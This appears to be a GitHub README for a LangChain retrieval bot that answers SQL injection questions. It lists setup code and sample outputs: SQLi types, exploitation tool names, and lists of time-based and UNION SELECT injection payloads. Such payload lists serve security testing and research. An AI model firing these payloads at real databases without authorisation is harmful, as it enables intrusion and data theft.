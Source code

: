 # SQL-Injection-LLM-Bot
Get SQL Injection information using this Bot

### Steps:
1. Load the required libraries:
```
from langchain.chat_models import ChatOpenAI # --> OpenAI's LLM
from langchain.document_loaders import GitLoader # --> To clone the repo from GitHub
from langchain.indexes import VectorstoreIndexCreator # --> To create embeddings and indexes
from langchain.vectorstores import DocArrayInMemorySearch # --> Vector Database for LLM interaction
from IPython.display import display, Markdown # --> Output display
```
2. Clone the Repo using GitLoader from Langchain DocumentLoaders
```
loader = GitLoader(
    clone_url="https://github.com/hwchase17/langchain",
    repo_path="./example_data/test_repo2/",
    branch="master",
)

data = loader.load()
```
3. Created a Vector Database
```
index = VectorstoreIndexCreator(
    vectorstore_cls=DocArrayInMemorySearch
).from_loaders([loader])
```
4. Initialize the LLM
```
llm = ChatOpenAI(temperature = 0.0)
```
5. Query the database
```
query = "......"

response = index.query(query, llm=llm)

display(Markdown(response))
```

### Results
Query 1
```
query = "List all the different types of SQL Injections"
-----

Output:

The different types of SQL injections are:

In-band SQLi (Classic SQLi)
Error-based SQLi
Union-based SQLi
Inferential SQLi (Blind SQLi)
Blind-boolean-based SQLi
Blind-time-based SQLi
```

Query 2
```
query = "List all the SQL Injection Vulnerability Scanner Tools"
-----

Output:

Here is a list of SQL Injection Vulnerability Scanner Tools:

SQLMap - Automatic SQL Injection And Database Takeover Tool
jSQL Injection - Java Tool For Automatic SQL Database Injection
BBQSQL - A Blind SQL-Injection Exploitation Tool
NoSQLMap - Automated NoSQL Database Pwnage
Whitewidow - SQL Vulnerability Scanner
DSSS - Damn Small SQLi Scanner
explo - Human And Machine Readable Web Vulnerability Testing Format
Blind-Sql-Bitshifting - Blind SQL-Injection via Bitshifting
Leviathan - Wide Range Mass Audit Toolkit
Blisqy - Exploit Time-based blind-SQL-injection in HTTP-Headers (MySQL/MariaDB)
These tools can help identify and exploit SQL injection vulnerabilities in web applications.
```

Query 3
```
query = "List some Generic Time Based SQL Injection Payloads"
-----

Output:

Here are some examples of generic time-based SQL injection payloads:

1. sleep(5)#
2. 1 or sleep(5)#
3. " or sleep(5)#
4. ' or sleep(5)#
5. " or sleep(5)="#
6. ' or sleep(5)='
7. 1) or sleep(5)#
8. ") or sleep(5)="#
9. ') or sleep(5)='
10. 1)) or sleep(5)#
11. ")) or sleep(5)="#
12. ')) or sleep(5)='
13. ;waitfor delay '0:0:5'--
14. );waitfor delay '0:0:5'--
15. ';waitfor delay '0:0:5'--
16. ";waitfor delay '0:0:5'--
17. ');waitfor delay '0:0:5'--
18. ");waitfor delay '0:0:5'--
19. ));waitfor delay '0:0:5'--
20. '));waitfor delay '0:0:5'--
21. "));waitfor delay '0:0:5'--
22. benchmark(10000000,MD5(1))#
These payloads can be used to test for time-based SQL injection vulnerabilities in web applications.
```

Query 4
```
query = "List some Generic Union Select Payloads"
----

Output:

Here are some examples of generic Union Select payloads that can be used in SQL injection attacks:

1. , (select * from (select(sleep(10)))a)
2. %2c(select%20*%20from%20(select(sleep(10)))a)
3. ';WAITFOR DELAY '0:0:30'--
These payloads can be used to perform Union-based SQL injection attacks by injecting malicious SQL code into vulnerable input fields. It is important to note that these payloads may need to be modified or customized based on the specific target and the underlying database management system being used.
```

Query 5
```
query = "List some Generic UNION SELECT Payloads"
----

Output:

Here are some examples of generic UNION SELECT payloads:

UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
These payloads can be used to test for SQL injection vulnerabilities by injecting a UNION SELECT statement into a vulnerable parameter and checking if the response contains the injected payload.
```

### Observations
1. Query 4 and Query 5 are the same but the LLM considered the SQL commands strictly.
2. The LLM returned Generic Time Based SQL Injection Payloads for the Query 4: List some Generic Union Select Payloads
3. The generic embeddings may not be able to capture the meaning of domain-specific knowledge

### Improvements
- [ ] Fine-tune the LLM to mitigate the Query 4 and Query 5 issue:
- [ ]     1. Try own embedding model
- [ ]     2. Combine with classic search algorithms: keywords, Tf-Idf....
- [ ] Evaluate the LLM using Manual and LLM evaluation methods
- [ ] Try different LLM vendors
